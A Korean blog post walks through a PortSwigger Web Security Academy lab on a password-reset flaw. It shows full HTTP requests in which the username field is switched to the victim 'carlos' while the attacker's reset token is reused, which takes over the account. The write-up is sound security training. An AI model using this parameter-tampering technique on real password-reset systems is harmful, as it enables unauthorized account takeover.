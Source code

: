 ```yaml
---
layout: post
title: "Burp Academy-인증(Authentication) 취약점: Password reset broken logic"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 인증취약점]
toc: true
---
```


# 개요
- 인증(Authentication)에 관련된 취약점이다. 
- 취약점 설명 주소: https://portswigger.net/web-security/authentication/other-mechanisms
- 문제 주소: : https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic
- 난이도: APPRENTICE (쉬움)

# 랩설명
패스워드 리셋 기능에 취약점이 있다. 이 것을 이용해서 calors 계정에 로그인한다. 

```
This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

Your credentials: wiener:peter
Victim's username: carlos
```

# 패스워드 재설정 과정 
패스워드 재설정 과정을 살펴본다.   
로그인 화면의 Forgot password? 버튼을 누르면 패스워드를 재설정할 수 있다. 

![패스워드 재설정 링크](/images/burp-academy-authn-3-1.png)

wiener를 입력하면 등록 이메일 주소로 패스워드 변경할 수 있는 링크가 전송된다. 

![패스워드 재설정 링크](/images/burp-academy-authn-3-4.png)

링크를 누르면 해당 유저의 패스워드를 재설정할 수 있다. 

![패스워드 재설정](/images/burp-academy-authn-3-5.png)

이 때의 HTTP요청은 다음과 같다. username 파라메터에 wiener 라는 계정명이 있는 것을 알 수 있다. 

```http
POST /forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo HTTP/2
Host: 0a3100a20303d26980695dee00db0032.web-security-academy.net
Cookie: session=qhlQrv3l9EcFoezCcIEiNfgiU3H3j745
Content-Length: 117
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3100a20303d26980695dee00db0032.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3100a20303d26980695dee00db0032.web-security-academy.net/forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo&username=wiener&new-password-1=12345&new-password-2=12345
```


# carlos유저의 패스워드 재설정
username을 carlos로 변경하고 요청해보면 302응답이 회신되는 것을 알 수 있다. 패스워드를 재설정이 성공한 것 같다. 

```http
POST /forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo HTTP/2
Host: 0a3100a20303d26980695dee00db0032.web-security-academy.net
Cookie: session=qhlQrv3l9EcFoezCcIEiNfgiU3H3j745
Content-Length: 117
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3100a20303d26980695dee00db0032.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3100a20303d26980695dee00db0032.web-security-academy.net/forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo&username=carlos&new-password-1=12345&new-password-2=12345
```


```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=KeImI4omqFQeLHsGAyI4BRGmMAXVrDSp; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

변경된 패스워드를 사용해서 carlos유저로 로그인하면 로그인이 되는 것을 알 수 있다. 그리고 문제 풀이에 성공했다는 메세지가 출력된다. 

![성공](/images/burp-academy-authn-3-success.png)